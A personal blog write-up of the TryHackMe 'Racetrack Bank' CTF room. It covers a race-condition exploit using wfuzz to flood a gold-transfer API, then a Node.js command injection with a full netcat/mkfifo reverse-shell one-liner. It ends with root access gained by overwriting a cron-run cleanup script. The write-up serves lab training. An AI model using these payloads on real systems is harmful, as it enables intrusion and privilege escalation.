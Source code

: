 ```yaml
---
layout: post
title: Racetrack Bank | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-14 05:00:53 +0000'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```

- [Racetrack Bank](#racetrack-bank)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse shell](#reverse-shell)
- [Flags](#flags)

<!-- toc -->


### Racetrack Bank
Hallå gubbar, this one is a lil bit difficult but hey we can do it specially if you want to learn more and practice on race condition vulnerabilities ... check the box [Racetrack Bank](https://tryhackme.com/room/racetrackbank) 

### Enumeration

![alt text](https://thelastvvv.github.io/images/posts/2/scanbank.png "THM")

After we scan using Nmap we found 80 port open = http

```sh
http:/ip-box:80
```


![alt text](https://thelastvvv.github.io/images/posts/2/main.png "THM")


then it will redirect you to the login page
we found other 2 pages 
give gold ( to send gold to other users) / purchase (buy premium ) 


![alt text](https://thelastvvv.github.io/images/posts/2/buyme.png "THM")

![alt text](https://thelastvvv.github.io/images/posts/2/givegold.png "THM")



We also have 1 gold ....

Nothing else so what we need to do is find out the premium features but how is that ?

Drom the description and title of the box is possible to say that there's race conditions vulnerabilities 

so let fuzz it!!

### Exploitation

How ?
we need to fuzz and send multi requests to transfer gold from an account to an other 
Result:
Farming gold 

What we need ?

1. Creating accounts
2. Cookies id tag
3. Loop requests
4. Buy premium


i will try to make it easy for you 

1. create account ( test22 ) also create an other account in private tab (test99)

we need to intercept the gold transfer request using BURPYYY...


![alt text](https://thelastvvv.github.io/images/posts/2/burp.png "THM")

2. Now we got cookie id tag (request)

3. Loop requests in this case we will use wfuzz 

but first create txt file and each line should have number 1 ( 1 gold remember ) and you should have 20 000 line 

" Dont worry i said i will make it easy for you "

[https://pastebin.com/MxnwWnWG](https://pastebin.com/MxnwWnWG)


 command :
 
```sh
wfuzz -w /root/Desktop/gold.txt -u http://Box-ip/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "Cookie ID" -d "user=test99&amount=FUZZ"
```


| Options      | Meaning       |
| ------------- |:-------------:|
|-w| wordlist|
|-u| url|
|-H |header|
|-b |cookie|
|-d |postdata |

So don't waste too much time going back from an account t oan other 

just once you reach 600 gold change 1 gold to 6 gold in text file 

also send gold from account test22 to test99 

also send back 600 from test99 without fuzzing it 

then go back to test22 and fuzz it again 

4. so in 3 steps you will have more 10k gold enough to buy premium !


![alt text](https://thelastvvv.github.io/images/posts/2/10kgold.png "THM")

### Reverse shell

To be frank i tried many injections command but nothing worked until checked source code (node.js)

so just google node.js reverse shell


```sh
http://Ip-box/premuimfeatures.html?ans=require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP PORT >/tmp/f')
```

voila!



![alt text](https://thelastvvv.github.io/images/posts/2/shell.png "THM")

### Flags

we got the user flag :
```sh
~$ cat  user.txt
```
Now we need to privesc to root but i'm lazy specially late nights so just searched for backup files and we find 
```sh/cleanup/```file called ```cleanupscript.sh``` that runs every minute.

So we can optin to get second reverse shell as root or copy and output root flag
 
so you either 
```sh 
rm cleanupscript.sh
```  
or
```sh
mv cleanupscript.sh > cleanupscript.sh.backup ( check dogcat room similar)
```

then
```sh
echo 'cat /root/root.txt > /home/brian/root_flag.txt' > cleanupscript.sh
```
```sh
chmod 777 cleanupscript.sh
```

Run it and wait 1 min then check for for output


![alt text](https://thelastvvv.github.io/images/posts/2/rootflag.png "THM")

See you next time ......

